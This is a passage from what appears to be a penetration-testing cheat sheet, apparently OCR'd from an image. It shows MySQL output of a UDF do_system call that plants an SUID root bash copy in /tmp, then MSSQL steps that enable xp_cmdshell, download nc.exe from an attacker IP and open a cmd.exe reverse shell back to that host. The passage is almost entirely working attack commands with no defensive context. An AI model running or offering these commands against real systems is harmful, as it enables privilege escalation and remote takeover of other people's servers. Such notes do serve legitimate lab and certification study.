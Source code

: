 ```
+------------------------------------------------------------------+
| do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash') |
+------------------------------------------------------------------+
|                                                       4294967296 | 
+------------------------------------------------------------------+
1 row in set (0.00 sec)
```

# MSSQL
## Connect to MSSQL
```
impacket-mssqlclient user:password@10.11.10.10
```
## Reverse shell using xp_cmdshell
```
enable_xp_cmdshell
xp_cmdshell "powershell.exe wget http://192.168.119.134/nc.exe -OutFile C:\\Users\Public\nc.exe"
xp_cmdshell "C:\Users\Public\nc.exe -e cmd.exe 192.168.119.134 443
```
